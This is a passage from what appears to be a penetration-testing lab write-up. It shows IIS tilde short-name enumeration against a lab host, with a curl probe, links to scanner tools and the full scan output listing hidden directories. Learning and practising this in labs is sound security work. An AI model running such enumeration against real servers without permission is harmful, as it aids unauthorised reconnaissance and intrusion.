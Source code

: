     root@kali# curl -s -I -X OPTIONS 'http://10.13.38.11/tem*~1*/.aspx'
    HTTP/1.1 404 Not Found
    Content-Type: text.md
    Server: Microsoft-IIS/10.0
    Date: Thu, 04 Jun 2020 11:27:36 GMT
    Content-Length: 1245



This doesn't work for all directories / files. It doesn't find `/admin`,
likely due to permissions. I found a couple tools to do the brute force
here. [This tool](https://github.com/irsdl/IIS-ShortName-Scanner) is the
one associated with the research paper above, but it's in Java, so I
kept looking and found [this Python
scanner](https://github.com/lijiejie/IIS_shortname_Scanner). When
running it on the root directory, it finds some of the stuff in it:



    root@kali# python /opt/IIS_shortname_Scanner/iis_shortname_Scan.py http://10.13.38.11/
    Server is vulnerable, please wait, scanning...
    [+] /d~1.*      [scan in progress]
    [+] /n~1.*      [scan in progress] 
    [+] /t~1.*      [scan in progress]
    [+] /w~1.*      [scan in progress]
    [+] /ds~1.*     [scan in progress]
    [+] /ne~1.*     [scan in progress]
    [+] /te~1.*     [scan in progress]    
    [+] /tr~1.*     [scan in progress]
    [+] /we~1.*     [scan in progress]     
    [+] /ds_~1.*    [scan in progress] 
    [+] /new~1.*    [scan in progress]
    [+] /tem~1.*    [scan in progress]
    [+] /tra~1.*    [scan in progress]
    [+] /web~1.*    [scan in progress]
    [+] /ds_s~1.*   [scan in progress]
    [+] /newf~1.*   [scan in progress]
    [+] /temp~1.*   [scan in progress] 
    [+] /tras~1.*   [scan in progress]
    [+] /ds_st~1.*  [scan in progress]
    [+] /newfo~1.*  [scan in progress]          
    [+] /templ~1.*  [scan in progress]
    [+] /trash~1.*  [scan in progress]
    [+] /ds_sto~1.* [scan in progress]
    [+] /newfol~1.* [scan in progress]
    [+] /templa~1.* [scan in progress]
    [+] /trashe~1.* [scan in progress]
    [+] /ds_sto~1   [scan in progress]
    [+] Directory /ds_sto~1 [Done]
    [+] /newfol~1   [scan in progress]
    [+] Directory /newfol~1 [Done]
    [+] /templa~1   [scan in progress]
    [+] Directory /templa~1 [Done]
    [+] /trashe~1   [scan in progress]
    [+] Directory /trashe~1 [Done]
    ----------------------------------------------------------------
    Dir:  /ds_sto~1
    Dir:  /newfol~1
    Dir:  /templa~1
    Dir:  /trashe~1
    ----------------------------------------------------------------
    4 Directories, 0 Files found in total
    Note that * is a wildcard, matches any character zero or more times.
